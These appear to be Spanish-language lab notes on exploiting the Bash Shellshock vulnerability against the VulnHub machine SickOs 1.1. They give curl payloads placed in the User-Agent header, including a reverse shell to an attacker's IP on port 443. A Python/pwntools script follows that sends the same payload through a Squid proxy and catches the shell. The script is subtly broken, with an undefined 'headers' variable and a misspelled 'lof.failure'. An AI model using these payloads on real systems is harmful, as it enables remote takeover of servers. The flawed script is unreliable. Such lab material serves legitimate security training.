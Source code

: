 # Ataque ShellShock

Tags: #ShellShock #OWASP #Explotacion 

Un ataque **Shellshock** es un tipo de ataque informático que aprovecha una vulnerabilidad en el **intérprete de comandos Bash** en sistemas operativos basados en Unix y Linux. Esta vulnerabilidad se descubrió en 2014 y se considera uno de los ataques más grandes y generalizados en la historia de la informática.

Esta vulnerabilidad en Bash permite a los atacantes ejecutar comandos maliciosos en el sistema afectado, lo que les permite tomar el control del sistema y acceder a información confidencial, modificar archivos, instalar programas maliciosos, etc.

La vulnerabilidad Shellshock se produce en el intérprete de comandos Bash, que es utilizado por muchos sistemas operativos Unix y Linux para ejecutar scripts de shell. El problema radica en la forma en que Bash maneja las variables de entorno. Los atacantes pueden inyectar código malicioso en estas variables de entorno, las cuales Bash ejecuta sin cuestionar su origen o contenido.

Los atacantes pueden explotar esta vulnerabilidad a través de diferentes vectores de ataque. Uno de ellos es a través del **User-Agent**, que es la información que el navegador web envía al servidor web para identificar el tipo de navegador y sistema operativo que se está utilizando. Los atacantes pueden manipular el User-Agent para incluir comandos maliciosos, que el servidor web ejecutará al recibir la solicitud.

A continuación se proporciona el enlace directo para la descarga de la máquina ‘**SickOs 1.1**‘. Esta máquina corresponde a la misma que estuvimos enumerando en la clase anterior, solo que en este caso procederemos con la fase de explotación haciendo uso de esta técnica:

-   **SickOs 1.1**: [https://www.vulnhub.com/entry/sickos-11,132/](https://www.vulnhub.com/entry/sickos-11,132/)


## Comandos

Si encontramos un dir llamado **/cgi-bin/** lo mas probables es que podamos testear un ShellShock. 
En esos directorios debemso de buscar archivos **pl, sh, cgi,** asi como tambien sin extension. 

* [ShellShock-Attack](https://blog.cloudflare.com/inside-shellshock/)

```bash 
curl -s http://<IP>/cgi-bin/ -H "User-Agent: () { :; }; /usr/bin/whoami" 

	# s = Silence 
	# H = Cabecera para el ataque de ShellShock
	# Ruta absoluta del comando que quieres ejecutar y lo ves con 'which' -> which whoami


# Si al momento de ejecutar el comando anterior no nos reporta el comando, debemos de colocar un echo antes o hasta dos antes.
curl -s http://<IP>/cgi-bin/ -H "User-Agent: () { :; }; echo; /usr/bin/id" 

	# Podemos colocar la ruta de cualquier comando, esperando a que la maquina tenga ese comando instalado. 


# Podemos usar el ShellShock para ganar acceso a la maquina.
curl -s http://<IP>/cgi-bin/ -H "User-Agent: () { :; }; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/<IP-Atacante>/443 0>&1'" 

	# Otra ruta del bash por si no funciona es '/usr/bin/bash' 
```


Haremos que al momento de ejecutar el programa, podamos tener una ReverShell al instante en nuestra consola.
```python
# Primero nos debemos crear un archivo python 

❯ nano ShellShock.py

#!/usr/bin/python3

import requests
import signal
import sys
import threading 
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)
    
# Ctrl + c
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://localhost/cgi-bin/status"
squid_proxy = {'http': 'http://192.168.68.1:3128'}
lport = 443

def shellshock_attack():
	header = {'User-Agent': "() { :; }; /bin/bash -c '/bin/bash -i >& /dev/tcp/<IP-Atacante>/443 0>&1'"}
	r = requests.get(main_url, headers=headers, proxies=squid_proxy)

if __name__ == '__main__':
	try:
		threading.Thread(target=shellshock_attack, args=()).start()
	except Exception as e:
		log.error(str(e))
	
	shell = listen(lport, timeout=20).wait_for_connection()
	
	if shell.sock is None:
		lof.failure("No se pudo establecer la conexion")
		sys.exit(1)
	else: 
		shell.interactive()
```